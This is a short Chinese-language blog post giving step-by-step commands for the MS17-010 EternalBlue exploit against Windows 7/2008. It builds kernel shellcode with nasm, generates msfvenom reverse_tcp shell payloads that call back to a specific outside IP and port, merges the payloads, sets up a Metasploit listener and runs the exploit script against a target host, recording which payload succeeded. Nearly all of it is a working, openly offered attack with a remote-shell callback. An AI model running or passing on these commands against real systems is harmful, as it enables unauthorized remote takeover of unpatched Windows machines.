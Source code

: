 ```yaml
---
title: ms17-010 python脚本exploit
date: 2017-08-22 17:15:40
tags: ms17-010
---
```


脚本github : https://github.com/worawit/MS17-010

<!-- more -->

## 生成shellCode
```
 nasm -f bin eternalblue_kshellcode_x86.asm -o eternalblue_kshellcode_x86.bin           # 32位kernel code

 nasm -f bin eternalblue_kshellcode_x64.asm -o eternalblue_kshellcode_x64.bin           # 64位kernel code


 msfvenom -p windows/shell/reverse_tcp lhost=47.90.92.56 lport=5910 -f raw -o msf_shellcode_x86_ms17010_sunny5910.raw EXITFUNC=thread       # 32位msf reverse_tcp code

 msfvenom -p windows/x64/shell/reverse_tcp lhost=47.90.92.56 lport=5910 -f raw -o msf_shellcode_x64_ms17010_sunny5910.raw EXITFUNC=thread   # 64位msf reverse_tcp code


 cat eternalblue_kshellcode_x64.bin msf_shellcode_x64_ms17010_sunny5910.raw > shellcode_sunny5910_x64.bin       # 64位代码整合

 cat eternalblue_kshellcode_x86.bin msf_shellcode_x86_ms17010_sunny5910.raw > shellcode_sunny5910_x86.bin       # 32位代码整合


 python eternalblue_sc_merge.py shellcode_sunny5910_x64.bin shellcode_sunny5910_x86.bin shellcode_sunny5910_all.bin         # x86与x64代码整理（实际中有出现蓝屏，原因未知）
```
## 本地接收shell
```
sunny clientid e6cc2bd36aXXXXXXX     (个人id, 5910端口映射)

msfconsole          # 启动MSF

use exploit/multi/handler

set lhost 0.0.0.0

set lport 5910

run

```

## 攻击
eternalblue_exploit7.py  ::  Eternalblue exploit for Windows 7/2008
eternalblue_exploit8.py  ::  Eternalblue exploit for windows 8/2012 x64

```
python eternalblue_exploit7.py 10.1.1.4 shellcode_sunny5910_all.bin         # 攻击导致蓝屏

python eternalblue_exploit7.py 10.1.1.4 shellcode_sunny5910_x64.bin         # 攻击成功
```

